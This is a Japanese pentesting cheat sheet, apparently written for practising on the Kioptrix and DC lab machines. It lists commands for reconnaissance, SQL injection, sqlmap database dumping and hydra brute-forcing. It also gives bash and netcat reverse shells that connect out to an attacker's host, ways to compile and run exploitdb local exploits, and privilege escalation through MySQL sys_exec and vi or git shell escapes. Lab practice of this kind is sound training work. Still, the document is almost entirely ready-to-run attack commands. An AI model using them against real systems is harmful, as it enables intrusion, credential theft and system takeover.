 🐻 Kioptrix#1/#2/#3/#4 DC-1/DC-2/DC-3/DC-4

## Reconnaissance

ホスト確認

    nmap -sn [address]/24
    netdiscover -r [address]/24

ポート確認

    nmap -v -p 1-65535 -sV -sT -Pn [HOST]
    nmap -v -A [HOST]

Nmap Scripting Engine

    /usr/share/nmap/scripts #スクリプト所在
    nmap --script=smb-enum-* -p139,445 [address] #Samba

Webサーバ／[dirsearch](https://github.com/maurosoria/dirsearch)

    nikto -h [HOST]
    dirb http://XXX.com/
    python3 dirsearch.py -u http://XXX.com -e * -x 403,404

curl

    curl http://ip/login.php -XPOST -d 'username=aaa&password=bbb' 

状態確認

    uname -a
    cat /etc/redhat-release  #Redhat
    lsb_release -a           #Ubuntu
    cat /proc/version

SSH／認証鍵・ポート指定

     ssh -o PubkeyAuthentication=no -p 7720 user@10.0...

MySQL

     mysql -u root -p
     show databases;
     use ids;
     show tables;
     select * from idtable;

Samba

    smbclient //[address]/[dir] -U [user]

[SQL Injection Cheat Sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)

    ' or 1=1--

[LinEnum](https://github.com/rebootuser/LinEnum)

    ./LinEnum.sh -r repo -e /tmp/.le

 1. どのようなユーザが存在するか？
 2. 権限昇格を狙えるものはあるか？
 3. SUID／SGID(実行ファイル所有者権限実行)が存在しないか？
 4. 自ユーザで書き込める・アクセスできるものは何か？


wpscan

    wpscan -e u --url http://ip/ 
    wpscan --url http://ip/ -U ./ulist -P ./plist


[CeWL: Custom Word List Generator](https://github.com/digininja/CeWL)

    bundle install --path vendor/bundle
    bundle exec ./cewl.rb http://XXX/ -w passlist

[vanhauser-thc/thc-hydra: hydra](https://github.com/vanhauser-thc/thc-hydra)

    hydra -v -L users -P passwords ssh://10.110...


## Delivery

http転送

    python -m SimpleHTTPServer 9998
    wget http://address:9998/file


## Exploitation

Spawning A TTY Shell

    echo os.system('/bin/bash')  #LShell
    /bin/sh -i
    python -c 'import pty; pty.spawn("/bin/bash")'
    ruby -e 'exec "/bin/bash"'
    find /etc/passwd -exec /bin/sh \;  #SUID


[リバースシェル](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

    nc -lvp 9999

    ;bash -i >& /dev/tcp/ip/9999 0>&1
    nc ip 9999 -e /bin/bash

[php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

 - CMS内で直接ファイルを編集・任意実行できる仕組みは無いか？
 - テンプレート・プラグイン読み込み機能は？


[exploitdb](https://github.com/offensive-security/exploitdb)

    searchsploit CentOS 4.0
    cp /opt/exploitdb/exploits/linux_x86/local/XXX.c XXX.c
    gcc XXX.c -o test
    ./test

sqlmap 

    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL #GET
    sqlmap -u "http://XXX.com/db.php" --method POST --data "id=XXX" #POST

    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL --dbs 
    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL -D [db_name] --tables 
    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL -D [db_name] --T [tb_name] --dump

[MySQL Root to System Root](https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/)

    use mysql;
    select * from func;
    select sys_exec('usermod -a -G admin [user]');

Bash

    echo $PATH
    export PATH=$PATH:/usr/bin

    sudo -l

Vi/Vim

    :set shell=/bin/bash
    :shell

Git

    git -p --help  #意図的にページャを開く
    !/bin/sh


